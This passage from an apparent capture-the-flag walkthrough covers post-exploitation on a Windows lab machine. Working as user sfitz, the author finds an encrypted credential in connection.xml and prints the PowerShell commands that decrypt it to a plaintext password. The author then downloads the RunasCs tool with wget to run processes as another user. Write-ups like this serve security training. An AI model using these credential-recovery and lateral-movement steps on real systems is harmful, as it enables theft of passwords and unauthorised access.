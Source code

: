 finally we have gotten a shell as user sfitz.

![[12.png]]
so let's begin snooping around for useful informations so  we can find to exploit this machine further.


![[13.png]]
we can see that we are logged in as the user **sfitz** 


![[14.png]]
after a while of poking around we found a file located in the Documents directory called connection.xml. let's attempt to view this file 

```
Command used : type connection.xml
```



![[17.png]]
from the file we can see a  username (alaading) and an encoded password

now we can make use of the following lines of code to get the password and decode it.



```
echo > pass.txt  
$EncryptedString = Get-Content .\pass.txt  
$SecureString = ConvertTo-SecureString $EncryptedString  
$Credential = New-Object System.Management.Automation.PSCredential -ArgumentList "username",$SecureString  
echo $Credential.GetNetworkCredential().password
```
![[18.png]]
while running the following command  tried creating the pass.txt file in the Documents directory of the user sfitz but it seems that we do not have write permissions so i had to switch over  to the Desktop  directory to create my pass.txt file there.

![[19.png]]

and now we have successfully gotten our password.
 

**RunasCs** is a utility to run specific processes with different permissions than the user’s current logon provides using explicit credentials.

we can download the binary and transfer it over to our target machine.

download RunasCs Binary 

``` 
wget https://github.com/antonioCoco/RunasCs/releases/download/v1.5/RunasCs.zip
unzip RunasCs
cd RunasCS
```
